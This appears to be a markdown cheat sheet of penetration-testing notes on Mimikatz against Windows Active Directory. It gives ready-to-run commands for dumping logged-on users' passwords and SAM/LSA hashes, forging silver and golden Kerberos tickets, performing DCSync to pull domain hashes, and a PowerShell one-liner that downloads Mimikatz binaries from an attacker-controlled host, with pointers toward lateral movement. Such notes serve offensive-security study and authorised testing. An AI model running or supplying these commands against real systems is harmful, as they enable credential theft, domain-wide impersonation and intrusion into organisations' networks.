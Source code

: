 # Mimikatz

cheat sheet 
[mimikatz cheatsheet](https://kashz.gitbook.io/kashz-jewels/cheatsheet/mimikatz)

## Silver Tickets

Using an admin powershell and open mimikatz:

```
privilege::debug
```

and follow up with:

```
token::elevate
```

get passwords of logged on users:

```
sekurlsa::logonpasswords
```
Now, if we get the NTLM hash of an SPN with privleges to a service we want access to, we can forge a silver ticket.

```
kerberos::golden /sid:${DOMAIN_SID} /domain:${DOMAIN} /target:${RHOST_IP} /service:http /rc4:${NTLM_HASH} /user:${DOMAIN_USER} /ptt
```
The `$DOMAIN_SID` can be retrieved by doing `whoami /user` from a domain user and getting everything but the last section (which identifies the user).
Note that the user argument just has to be a valid user from the domain.
What determines the access rights is the NTLM hash and not the user, so you can even put the current user.

Afterwards, do `exit` and check that the ticket is loaded into memory with `klist`.

We can now use it to move laterally with the techniques mentioned [here](./lateral-movement.md).


## Golden Tickets

Golden Tickets are just Silver Tickets for the krbtgt account.
This grants access to all services using Kerberos authentication.

Another example of the above command (note we pass the NTLM hash to `/krbtgt` and don't specify a specific target):


```
kerberos::golden /sid:${DOMAIN_SID} /domain:${DOMAIN} /krbtgt:${KRBTGT_NTLM} /user:${DOMAIN_USER} /ptt

```
Followed up with:

```
misc::cmd
```

Now, eg.  `PsExec` can be run from CMD with the ticket.


## DSYNC

mimikatz can help us attempt to get the NTLM of a user in the domain by performing a dsync attack:
(requires local admin).

```
lsadump::dcsync /user:${DOMAIN}\${USER}
```
## Dump hashes

Dump with either:
```
lsadump::sam
lsadump::lsa [/inject | /patch]
lsadump::cache
```

## Transfering mimikatz files from http server in Powershell

```powershell
iwr -uri http://${ATTACKER_IP}:8000/mimidrv.sys -outfile mimidrv.sys; iwr -uri http://${ATTACKER_IP}:8000/mimikatz.exe -outfile mimikatz.exe; iwr -uri http://${ATTACKER_IP}:8000/mimilib.dll -outfile mimilib.dll; iwr -uri http://${ATTACKER_IP}:8000/mimispool.dll -outfile mimispool.dll
```
